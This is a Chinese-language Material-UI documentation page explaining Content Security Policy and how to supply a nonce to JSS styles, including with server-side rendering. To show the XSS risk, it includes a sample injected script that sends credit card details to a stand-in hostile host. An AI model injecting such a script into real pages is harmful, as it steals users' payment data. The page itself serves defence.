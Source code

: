 # CSP（网页安全政策）

<p class="description">Material-UI 支持网页安全政策的标题。</p>

## 什么是网页安全政策？为什么它有用？

基本上，网页安全政策通过要求开发人员将其资源从中检索的源列入白名单来缓解跨站点脚本（XSS）的攻击。 此列表作为服务器的头信息返回。 例如，假设您有一个托管在 `https://example.com` 网站 CSP 头信息的 `default-src：'self';`，这将加载位于`https://example.com/*`的所有资源，并阻止加载其他的。 如果您的网站的某个部分容易受到 XSS 的影响而未显示未转义的用户输入，攻击者可以输入以下内容：

    <script>
      sendCreditCardDetails('https://hostile.example');
    </script>
    

攻击者可以利用此漏洞执行任何操作。 但是，使用安全的 CSP 头信息，浏览器将不会加载此脚本。

您可以[在此处](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)阅读有关 CSP 的更多信息。

## 如何启用 CSP？

为了将 CSP 与Material-UI（和JSS）一起使用，您需要使用一个 nonce（随机数）。 随机数是一个随机生成的只使用一次的字符串，因此您需要添加一个服务器中间件，这样在每个请求上都能生成一个随机数。 JSS 有一个关于如何使用 Express 和 React Helmet 实现这一目标的[很棒的教程](https://github.com/cssinjs/jss/blob/master/docs/csp.md)。 关于一些基本的纲要，请继续阅读。

一个 CSP 的随机数是一个 Base 64编码的字符串。 你可以生成这样一个：

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

使用 UUID 版本4是非常重要的，因为它会生成一个**不可预测**字符串。 然后，您可以将此随机数附加于 CSP 头信息中。 当附加了随机数的时候，CSP 头信息可能看起来像这样：

```js
header('Content-Security-Policy')
  .set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);
```

如果使用服务器端渲染（SSR），您则需要将在在服务器上的 `<style>` 标签中传入随机数。

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: sheetsRegistry.toString() } }
/>
```

然后，您必须将此随机数传递给 JSS ，以便将其添加到后续的 `<style>` 标签当中。 客户端将从头信息中获取随机数。 不管您使不适用服务器端渲染，您都必须包含此头信息。

```jsx
<meta property="csp-nonce" content={nonce} />
```